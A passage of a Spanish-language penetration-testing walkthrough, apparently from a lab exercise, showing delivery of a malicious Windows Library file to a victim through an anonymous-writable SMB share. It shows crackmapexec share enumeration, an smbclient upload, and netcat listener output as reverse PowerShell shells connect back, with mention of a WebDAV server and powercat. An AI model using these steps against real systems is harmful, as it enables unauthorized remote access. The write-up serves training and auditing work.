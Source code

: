 Una vez nuestro cliente haya clickeado sobre nuestro ejecutable obtendremos una shell:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
192.168.248.194: inverse host lookup failed: Unknown host
connect to [192.168.45.154] from (UNKNOWN) [192.168.248.194] 58306
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0>
```

<br />

**Pasando el malware a nuestra víctima.**

Las formas de pasar el malware a la víctima son múltiples y variadas y depende exclusivamente del contexto de cada auditoría.

En este caso en concreto, aprovecharemos un acceso de escritura a un share smb:

```
┌──(kali㉿kali)-[~]
└─$ crackmapexec smb 192.168.248.195 -u anonymous -p "" --shares
SMB         192.168.248.195 445    HR137            [*] Windows 10.0 Build 22000 x64 (name:HR137) (domain:HR137) (signing:False) (SMBv1:False)
SMB         192.168.248.195 445    HR137            [+] HR137\anonymous: 
SMB         192.168.248.195 445    HR137            [+] Enumerated shares
SMB         192.168.248.195 445    HR137            Share           Permissions     Remark
SMB         192.168.248.195 445    HR137            -----           -----------     ------
SMB         192.168.248.195 445    HR137            ADMIN$                          Remote Admin
SMB         192.168.248.195 445    HR137            C$                              Default share
SMB         192.168.248.195 445    HR137            IPC$            READ            Remote IPC
SMB         192.168.248.195 445    HR137            share           READ,WRITE      
SMB         192.168.248.195 445    HR137            Users           READ 
```

Así, empleamos el siguiente comando para logearnos con *smbclient* y poner el Windows Library file, (recordando tener el webDAV abierto con el link valido, el servidor de python con powercat accesible y un listener de netcat en el puerto adecuado):

```
smbclient //192.168.248.195/share -c 'put config.Library-ms' -U Anonymous 
Password for [WORKGROUP\Anonymous]:
putting file config.Library-ms as \config.Library-ms (6.6 kb/s) (average 6.6 kb/s)
```

Y terminaremos recibiendo una conexión:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
192.168.248.195: inverse host lookup failed: Unknown host
connect to [192.168.45.154] from (UNKNOWN) [192.168.248.195] 50608
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0>
```
